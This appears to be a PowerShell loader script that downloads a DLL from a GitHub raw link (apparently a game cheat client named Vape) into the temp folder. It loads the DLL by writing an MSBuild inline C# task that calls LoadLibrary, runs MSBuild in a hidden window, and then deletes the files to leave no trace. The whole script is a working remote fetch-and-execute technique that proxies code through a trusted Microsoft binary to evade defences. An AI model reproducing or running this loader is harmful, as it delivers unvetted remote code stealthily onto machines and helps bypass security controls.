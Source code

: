 # Download DLL to temp location - USE RAW FILE LINK
$dllUrl = "https://raw.githubusercontent.com/Zaza-YT/VapeDll/main/vape4.17%202.dll"  # Must point to actual DLL file
$tempDll = "$env:TEMP\inject.dll"

try {
    # Add user-agent header to avoid GitHub blocking
    $client = New-Object System.Net.WebClient
    $client.Headers.Add("user-agent", "Mozilla/5.0")
    $client.DownloadFile($dllUrl, $tempDll)
    
    if (-not (Test-Path $tempDll)) {
        throw "Download failed - file not found"
    }

    # Define the XML payload
    $xmlPayload = @"
<Project ToolsVersion="4.0" xmlns="http://schemas.microsoft.com/developer/msbuild/2003">
  <Target Name="Injection">
    <ClassExample />
  </Target>
  <UsingTask TaskName="ClassExample" TaskFactory="CodeTaskFactory" AssemblyFile="$(Get-Item "C:\Windows\Microsoft.NET\Framework\v*\Microsoft.Build.Tasks.v*.dll" | Select-Object -First 1 -ExpandProperty FullName)">
    <Task>
      <Code Type="Class" Language="cs">
        <![CDATA[
          using System;
          using System.Runtime.InteropServices;
          public class ClassExample : Microsoft.Build.Utilities.Task {
            [DllImport("kernel32.dll")]
            public static extern IntPtr LoadLibrary(string dll);
            public override bool Execute() {
              LoadLibrary(@"$tempDll");
              return true;
            }
          }
        ]]>
      </Code>
    </Task>
  </UsingTask>
</Project>
"@

    # Save and execute
    $xmlPath = "$env:TEMP\build.xml"
    $xmlPayload | Out-File $xmlPath -Force
    
    # Find MSBuild path dynamically
    $msbuild = (Get-Item "${env:ProgramFiles(x86)}\Microsoft Visual Studio\*\*\MSBuild\Current\Bin\MSBuild.exe" | 
               Select-Object -First 1 -ExpandProperty FullName)
    
    if (-not $msbuild) {
        $msbuild = "msbuild.exe"  # Fallback to PATH
    }

    if (Test-Path $xmlPath) {
        $proc = Start-Process $msbuild -ArgumentList """$xmlPath""" -WindowStyle Hidden -PassThru
        $proc.WaitForExit(5000)  # Wait max 5 seconds
        
        # Cleanup
        Remove-Item $tempDll -Force -ErrorAction SilentlyContinue
        Remove-Item $xmlPath -Force -ErrorAction SilentlyContinue
    }
}
catch {
    Write-Error "Failed: $_"
    exit 1
}
